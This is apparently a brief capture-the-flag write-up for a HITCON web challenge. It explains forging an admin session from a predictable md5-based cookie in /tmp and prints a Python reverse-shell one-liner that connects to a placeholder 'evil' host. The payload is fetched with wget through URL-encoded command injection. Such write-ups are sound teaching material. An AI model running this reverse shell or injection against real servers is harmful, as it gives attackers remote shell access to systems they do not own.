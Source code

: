 helped us too much for filtering our ideas specialty these codes 

```perl
$SESSDIR = "/tmp/";
$sessfile = $cgi->cookie("diagsess");
``` 

we found that our sessions created in /tmp/ourcookie and ourcookie was it : md5(admin or guest||| our ip) , we tried to make a session file and we could make it and became member
and executed command by admin access but nothing happend :(
after these ways we tried to spawn shell from server of challange and we could 

```python
#!/usr/bin/python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("evil ip",evil port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

we uploaded this code on a server and WGET it on challange server and then ran it ( with %0a and %20 and urlencode we colud wget it and ran it ) 
challange server coonected to our evil server and we could run read_key for reading flag :)

flag was :

```perl
HITCON{a755be06b165ed8fc4710d3544fce942}
```